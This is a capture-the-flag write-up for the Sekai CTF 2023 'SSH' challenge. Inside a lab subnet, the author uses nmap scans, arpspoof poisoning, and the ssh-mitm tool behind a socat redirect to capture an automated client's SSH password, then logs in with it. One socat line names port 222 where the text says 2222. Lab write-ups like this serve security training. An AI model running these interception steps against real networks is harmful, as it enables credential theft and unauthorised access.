 # Sekai CTF 2023 - SSH [18 solves / 468 points]

### Description
```
Jackal got tired of typing yes at every SSH prompt, clearing his known_hosts file each time the remote host's identification changes, etc., so he decided enough is enough, especially that he runs a lot of automated scripts that make use of SSH.

One day, you find yourself in the same network as Jackal and his juicy SSH server, your curiosity gets the better of you and you decide to wear your black hat once again.

You are free to do any port scans/network attacks on the 10.0.0.0/29 subnet. Your goal is to gain access to Jackal's SSH server and uncover its secrets.

Author: hfz
```

After connecting to the network with the ovpn file, we can just scan the network, and we will found 3 machines (10.0.0.1, 10.0.0.2 and 10.0.0.4), and our machine is 10.0.0.3

```
Nmap scan report for 10.0.0.1
Host is up (0.32s latency).
Not shown: 60987 closed ports, 4547 filtered ports
PORT     STATE SERVICE VERSION
1337/tcp open  waste?
MAC Address: 8A:D9:F7:4B:67:09 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/27%OT=1337%CT=2%CU=38438%PV=Y%DS=1%DC=D%G=Y%M=8AD9F7
OS:%TM=64EB415D%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=Z%TS
OS:=A)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M52BST11NW7%O2=M5
OS:2BST11NW7%O3=M52BNNT11NW7%O4=M52BST11NW7%O5=M52BST11NW7%O6=M52BST11)WIN(
OS:W1=A9B0%W2=A9B0%W3=A9B0%W4=A9B0%W5=A9B0%W6=A9B0)ECN(R=Y%DF=Y%T=40%W=A564
OS:%O=M52BNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R
OS:=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop

TRACEROUTE
HOP RTT       ADDRESS
1   318.66 ms 10.0.0.1


Nmap scan report for 10.0.0.2
Host is up (0.29s latency).
All 65535 scanned ports on 10.0.0.2 are closed (58207) or filtered (7328)
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   207.69 ms 10.0.0.1
2   414.70 ms 10.0.0.2

Nmap scan report for 10.0.0.4
Host is up (0.33s latency).
Not shown: 59399 closed ports, 6135 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.3 (protocol 2.0)
| ssh-hostkey: 
|   256 17:77:2c:dc:f3:24:7d:fd:00:b4:43:a7:06:26:7d:be (ECDSA)
|_  256 7d:1b:0a:e1:0f:c1:32:e8:38:bc:08:a3:d3:57:8b:0c (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/27%OT=22%CT=1%CU=30188%PV=Y%DS=2%DC=T%G=Y%TM=64EB427
OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10F%TI=Z%CI=Z%TS=A)SEQ(SP=10
OS:2%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M52BST11NW7%O2=M52BST11NW7%O3
OS:=M52BNNT11NW7%O4=M52BST11NW7%O5=M52BST11NW7%O6=M52BST11)WIN(W1=A9B0%W2=A
OS:9B0%W3=A9B0%W4=A9B0%W5=A9B0%W6=A9B0)ECN(R=Y%DF=Y%T=41%W=A564%O=M52BNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=41%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=41%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=41%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=41%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=41%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=41%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=41%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
-   Hop 1 is the same as for 10.0.0.2
2   414.50 ms 10.0.0.4
```

10.0.0.1 has port 1337 opened, but I have no idea what it is, 10.0.0.2 has no port opened and 10.0.0.4 has port 22 (SSH) opened

As the description said we are free to do any network attacks, I think this challenge might be similar to the Shell Boi challenge in InCTF 2021 : https://ctftime.org/writeup/29823

So I just try to do arp spoofing to see if there's any traffic between those 3 machines, and when I try to spoof as 10.0.0.4 I discover that 10.0.0.2 is trying to connect to my machine

```
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 10.0.0.4
```

![](https://i.imgur.com/Gi04vR4.png)

Then I just do arp spoofing to 10.0.0.2 and set the ip address of my interface as 10.0.0.4

```
arpspoof -i tap0 -t 10.0.0.2 10.0.0.4
ifconfig tap0 10.0.0.4 netmask 255.255.255.248
```

Then I try to listen on port 22 :

```
# nc -nlvp 22
listening on [any] 22 ...
connect to [10.0.0.4] from (UNKNOWN) [10.0.0.2] 48394
SSH-2.0-OpenSSH_9.3
```

Looks like 10.0.0.2 is trying to connect to 10.0.0.4 through SSH

So, maybe we can try to do a MITM attack to steal the SSH creds of 10.0.0.2 when it tries to login, as the description said it will clear the known_hosts each time

I found this : https://github.com/jtesta/ssh-mitm

So just run it in docker :

```
docker pull positronsecurity/ssh-mitm
mkdir -p ${PWD}/ssh_mitm_logs && docker run --network=host -it --rm -v ${PWD}/ssh_mitm_logs:/home/ssh-mitm/log positronsecurity/ssh-mitm
```

It will be listening on port 2222, we can just use socat to redirect traffic from port 22 to port 2222 :

```
socat tcp-listen:22,reuseaddr,fork tcp:127.0.0.1:222
```

When it tries to login to our machine through SSH, we will see it's SSH creds to 10.0.0.4 :

```
# cat sftp_session_1.html 
<html><pre>Time: 2023-08-27 14:24:33 GMT
Server: 127.0.0.1:2222
Client: 127.0.0.1:58648
Username: jackal
Password: g8uigEpVuhO9mg7z
Command: :
-------------------------
```

Then just stop the arp spoofing and change the ip address of the interface back to 10.0.0.3 :

```
ifconfig tap0 10.0.0.3 netmask 255.255.255.248
```

and login to 10.0.0.4 through SSH with the stolen creds :

```
# ssh jackal@10.0.0.4
The authenticity of host '10.0.0.4 (10.0.0.4)' can't be established.
ECDSA key fingerprint is SHA256:Go31pDKyaoFMjb8V3LL4HWt5Lqp2l3i8VtLTGXCfupE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.0.4' (ECDSA) to the list of known hosts.
jackal@10.0.0.4's password: 
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

sshserver:~$ ls -la
total 20
drwxr-sr-x    1 jackal   jackal        4096 Aug 27 14:27 .
drwxr-xr-x    1 root     root          4096 Aug 26 05:55 ..
-rw-------    1 jackal   jackal           7 Aug 27 14:27 .ash_history
-rw-r--r--    1 root     root            67 Aug 26 05:54 flag.txt
sshserver:~$ cat flag.txt 
SEKAI{https://linux.livejournal.com/1884229.html_4540941f3ea0a6cd}
```
